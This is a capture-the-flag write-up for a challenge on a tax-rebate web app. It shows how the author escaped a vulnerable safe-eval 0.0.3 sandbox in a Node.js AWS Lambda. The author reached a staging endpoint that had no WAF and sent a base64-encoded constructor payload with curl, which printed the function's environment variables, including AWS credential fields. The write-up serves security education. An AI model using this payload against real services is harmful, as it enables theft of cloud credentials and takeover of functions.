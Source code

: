 # Hold the line! Perimeter defences doing it's work!

> Points: 1991 [2000]

## Description

> Apparently, the lead engineer left the company (“Safe Online Technologies”). He was a talented engineer and worked on many projects relating to Smart City. He goes by the handle c0v1d-agent-1. Everyone didn't know what this meant until COViD struck us by surprise. We received a tip-off from his colleagues that he has been using vulnerable code segments in one of a project he was working on! Can you take a look at his latest work and determine the impact of his actions! Let us know if such an application can be exploited!
> 
> [Tax Rebate Checker](http://33woq.tax-rebate-checker.cf/)
> 
> Extract the flag value and submit in the correct format! - govtech-csg{extracted_value}
> 
> Note that cors-anywhere.herokuapp.com is not our domain. It's simply a free service. Please do not attack that domain!
> 
> This challenge:
> - Is eligible for Awesome Write-ups Award
> - Prerequisite for Mastery Award - Cloud Guru

## Solution

![](website.png)

As the name says, it is a website that help us calculate our tax rebate using our age and annual salary. Each time we submit the form, our data gets posted to `https://cors-anywhere.herokuapp.com/https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`. The reason there is 2 URLs appended to each other is because the request is being proxied through `https://cors-anywhere.herokuapp.com/` and the `CORS` headers are added to the response so that the browser will process the data from `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`.

Therefore, the URL that we should be targetting is `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/prod/tax-rebate-checker`.

According to the description, `c0v1d-agent-1` is the online handle that the engineer used. With a bit of googling, I found his [Github](https://github.com/c0v1d-agent-1) as well as the relevant [repository](https://github.com/c0v1d-agent-1/tax-rebate-checker).

Below is the vulnerable code that is being used in [`index.js`](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/index.js):

```javascript
...
            let body = JSON.parse(event.body);
            // Secret Formula
            let context = {person: {code: 3.141592653589793238462}};
            let taxRebate = safeEval((new Buffer(body.age, 'base64')).toString('ascii') + " + " + (new Buffer(body.salary, 'base64')).toString('ascii') + " * person.code",context);
            responseBody = {
                    results: taxRebate
            };
...
```

Essentially, it decodes the `age` and `salary` field in base64 and encodes them to `ascii` before evaluating them with `safeEval()`.

According to the [`package.json`](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/package.json), the version of `safe-eval` package that was being used is `0.0.3`, which was found to be vulnerable according to this [article](https://www.wispwisp.com/index.php/2019/08/16/cve-2017-16088-poc/). 

Another thing to note that was the presense of WAF (Web Application Firewall) on the `prod` setup as seen from this [issue](https://github.com/c0v1d-agent-1/tax-rebate-checker/issues/1). However, the issue also cited of a `staging` setup which did not have the WAF attached. 

Using `curl`, I was able to replicate the request but I instead sent the request to `https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker` to see if the `staging` might still be there and indead, it was.

```bash
$ curl -XPOST https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker -d '{"age":"Mg==","salary":"MTIz"}'
{"results":388.41589639154455}                                                                                                                                      
```

With these knowledge of the vulnerable `safe-eval` package and the WAF-absent `staging` setup, we set off to extract the environment variables of the `lambda` function as it would contain the `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and the `AWS_SESSION_TOKEN` which are required for us to takeover the `lambda` function.

Our final payload was the base64 encoded version of `this.constructor.constructor('return process')().env;//`, which instantly revealed the flag in the environment variables.

```bash
$ curl -XPOST https://7cismpmbed.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker -d '{"age":"dGhpcy5jb25zdHJ1Y3Rvci5jb25zdHJ1Y3RvcigncmV0dXJuIHByb2Nlc3MnKSgpLmVudjsvLw==","salary":"MTIz"}' | python3 -m "json.tool"
{
    "results": {
        "AWS_ACCESS_KEY_ID": "[REDACTED]",
        "AWS_DEFAULT_REGION": "ap-southeast-1",
        "AWS_EXECUTION_ENV": "AWS_Lambda_nodejs12.x",
        "AWS_LAMBDA_FUNCTION_MEMORY_SIZE": "128",
        "AWS_LAMBDA_FUNCTION_NAME": "cat-2-tax-rebate-checker",
        "AWS_LAMBDA_FUNCTION_VERSION": "$LATEST",
        "AWS_LAMBDA_INITIALIZATION_TYPE": "on-demand",
        "AWS_LAMBDA_LOG_GROUP_NAME": "/aws/lambda/cat-2-tax-rebate-checker",
        "AWS_LAMBDA_LOG_STREAM_NAME": "2020/12/08/[$LATEST]e125e7130aac44e591b6c02012a50176",
        "AWS_LAMBDA_RUNTIME_API": "127.0.0.1:9001",
        "AWS_REGION": "ap-southeast-1",
        "AWS_SECRET_ACCESS_KEY": "[REDACTED]",
        "AWS_SESSION_TOKEN": "[REDACTED]",
        "AWS_XRAY_CONTEXT_MISSING": "LOG_ERROR",
        "AWS_XRAY_DAEMON_ADDRESS": "169.254.79.2:2000",
        "LAMBDA_RUNTIME_DIR": "/var/runtime",
        "LAMBDA_TASK_ROOT": "/var/task",
        "LANG": "en_US.UTF-8",
        "LD_LIBRARY_PATH": "/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib",
        "NODE_PATH": "/opt/nodejs/node12/node_modules:/opt/nodejs/node_modules:/var/runtime/node_modules:/var/runtime:/var/task",
        "PATH": "/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin",
        "PWD": "/var/task",
        "SHLVL": "0",
        "TZ": ":UTC",
        "_AWS_XRAY_DAEMON_ADDRESS": "169.254.79.2",
        "_AWS_XRAY_DAEMON_PORT": "2000",
        "_HANDLER": "index.handler",
        "_X_AMZN_TRACE_ID": "[REDACTED]",
        "flag": "w3_Ar3_L00kinG_@t_Ap1"
    }
}

```

## Flag
`govtech-csg{"w3_Ar3_L00kinG_@t_Ap1}`